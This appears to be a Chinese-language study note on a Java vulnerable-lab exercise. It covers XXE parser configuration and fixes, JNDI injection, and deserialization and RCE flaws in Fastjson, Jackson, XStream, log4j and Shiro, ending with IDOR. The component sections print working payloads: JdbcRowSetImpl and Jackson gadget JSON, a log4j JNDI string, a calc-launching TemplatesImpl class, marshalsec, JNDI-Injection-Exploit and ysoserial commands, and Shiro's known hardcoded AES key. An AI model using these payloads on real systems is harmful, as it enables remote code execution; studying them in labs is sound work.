

```java
public String handleCustomer(@RequestBody Customer customer)
// 接收到xml请求后，将xml数据投到Customer接口上

@XBRead("//username")
// 定义了xpath查询，getFirstname方法会去xml中寻找//username值
```

**SAXReader**

SAXReader是dom4j（java解析xml类，树形操作api）提供的xml解析类

一遍使用SAX流式读取，一边在内存中构建树



也是直接new出来后read了

可以使用EntityResolver，任何外部实体请求都返回空

```java
sax.setEntityResolver((publicId, systemId) ->
        new InputSource(new StringReader("")));
```

**SAXBuilder**

是JDOM的xml处理库



和dom4j类似，都是树形构建

**DocumentBuilder**

原生DOM解析器，jdk自带



配置为默认，parse解析xml

并且使用了format直接打印出来

**Unmarshaller**

JAXB是java xml绑定架构，负责转换xml和java对象

其中，unmarshal就是将xml文档转化为java对象



其中，`XMLInputFactory.newFactory()`是默认配置，用户输入的content被直接解析

```java
  // 配置修复
xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");         // 禁止访问外部 DTD
xif.setProperty(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");  // 禁止访问外部样式表
```


## JNDI

**Injection**

原因就是lookup中的内容能够被控制



`lookup`支持查找远程网络地址，断点调试追踪下

打开隐藏的frame


## 组件漏洞

### xstream

xml序列库，更加简单灵活，更加不安全

在版本1.4.10之前，默认没有安全配置

```java
xs.fromXML(content);
```

能够直接反序列化

### Fastjson

根源来自`@type`，会把它的值当作java类名，直接加载并实例化类



**JdbcRowSetImpl** 

JNDI注入

使用python打开一个端口，共享实例化的恶意java执行类class

```
python -m http.server 8000 --bind 127.0.0.1
```

之后使用marshalsec开启LDAP，去远程访问恶意类

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"
```

之后发送：

```
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:1389/Exploit",
    "autoCommit": true
}
```

会远程加载，执行RCE

**TemplateImpl**

本地字节码，不出网利用

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
...
public class TemplatesImplExploit extends AbstractTranslet {
    static { Runtime.getRuntime().exec("calc.exe"); }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) {}
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {}
}
```

必须继承`AbstractTranslet`

之后生成的class经过base64编码传上去能够RCE

- 但是这个环境不可以，因为需要：

```
JSON.parseObject(payload, SupportNonPublicField)
```

而不是`JSON.parse(payload)`

具体是为什么需要另外找时间研究下

### Jackson



`enableDefaultTyping()`允许jackson直接指定要反序列化的java类名

但是默认的是jackson2.11.0，引入低版本会报错，默认内置很多黑名单

```
[
	"com.sun.rowset.JdbcRowSetImpl",		 
	{
		"dataSourceName":"ldap://127.0.0.1:1099/Exploit",
		"autoCommit":true
	}
]
```

post提交

### log4j



当发现日志字符串中有`${}`的语法时，会解析并执行内容

jndi-injection生成远程服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 127.0.0.1
```

post发送，即可执行命令

```
q=${jndi:ldap://127.0.0.1:1389/222ucn}
```

### shiro

暴露了硬编码的AES密钥`kPH+bIxk5D2deZiIxcaaaA==`



一般测试的时候，修改如`rememberMe=123`，如果响应有`Set-Cookie:rememberMe=deleteMe`，说明使用了shiro

使用ysoserial生成一个ser，加密后发送，注意加密逻辑是`AES-CBC/PKCS5`

```
java -jar ysoserial.jar CommonsCollections6 "calc" > payload.ser
```


## 其它

### IDOR

越权的原因就是直接通过传入的参数进行查找

**安全方法**

```java
// 校验session
String loginUser = (String) session.getAttribute("LoginUser");

// 校验uuid，纵深防御，防止爆破
return userMapper.queryByUuid(uuid);
```


